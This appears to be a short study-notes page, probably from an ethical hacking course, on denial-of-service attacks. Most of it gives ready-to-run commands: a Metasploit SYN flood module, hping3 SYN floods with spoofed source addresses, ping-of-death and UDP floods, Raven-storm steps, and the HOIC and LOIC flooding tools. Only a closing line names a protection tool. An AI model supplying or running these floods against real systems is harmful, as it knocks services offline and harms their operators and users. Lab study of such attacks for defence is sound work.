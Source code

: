 # Denial of service

## Perform DoS and DDoS attacks using various Techniques

- Perform a DoS attack (SYN flooding) on a target host using Metasploit
`use auxiliary/dos/tcp/synflood`

- Perform a DoS attack on a target host using hping3
SYN FLOOD: hping3 -S (Target IP Address) -a (Spoofable IP Address) -p 22 --flood  
in wireshark Statistics -> I/O Graphs  
PoD: hping3 -d 65538-S -p 21 --flood (Target IP Address)  
UDP flood: hping3 -2 -p 139 --flood (Target IP Address)  
Other UDP services:  
  - SNMPv2 (Port 161)  
  - QOTD (Port 17)  
  - RPC (Port 135)  
  - SSDP (Port 1900)  
  - CLDAP (Port 389)  
  - TFTP (Port 69)  
  - NetBIOS (Port 137,138,139)  
  - NTP (Port 123)  
  - Quake Network Protocol (Port 26000)  
  - VoIP (Port 5060)  

- Perform a DoS attack using Raven-storm
rst  
l4  
ip <target ip>  
port <target port>  
threads <threads number>  
run  

- Perform a DDoS attack using HOIC  
windows software  
256 target URLs simultaneously. It sends HTTP, POST, and GET requests  
high-speed multi-threaded HTTP Flood

- Perform a DDoS attack using LOIC  
windows software  
flood the server with TCP packets, UDP packets, or HTTP

## Detect and protect against DoS and DDoS attacks

- Detect and protect against DDoS attacks using Anti DDoS Guardian  
windows software
